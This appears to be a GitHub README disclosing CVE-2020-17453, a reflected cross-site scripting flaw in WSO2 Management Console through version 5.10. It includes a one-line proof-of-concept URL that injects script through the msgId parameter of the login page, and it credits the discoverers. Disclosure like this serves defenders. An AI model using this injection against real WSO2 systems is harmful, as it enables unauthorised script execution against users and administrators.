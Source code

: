 <h1 align="center">
  <br>
  <a href="https://github.com/JHHAX/CVE-2020-17453"><img src="https://i.ibb.co/XsLC8KS/download-1.png" alt="CVE"></a>
  
  
  <br>
  
  
  
  CVE-2020-17453
  
  
  
  <br>
</h1>

WSO2 Management Console through 5.10 allows XSS via the carbon/admin/login.jsp msgId parameter.

![PoC](https://github.com/JHHAX/CVE-2020-17453/blob/master/PoC.png)

## PoC (Proof of Concept)
```
https://<company>.com/carbon/admin/login.jsp?msgId=%27;alert(1)//
```

## Discoverers

Name: Jackson Henry

Twitter: [@JacksonHHax](https://twitter.com/JacksonHHax)

Name: Nicholas Young


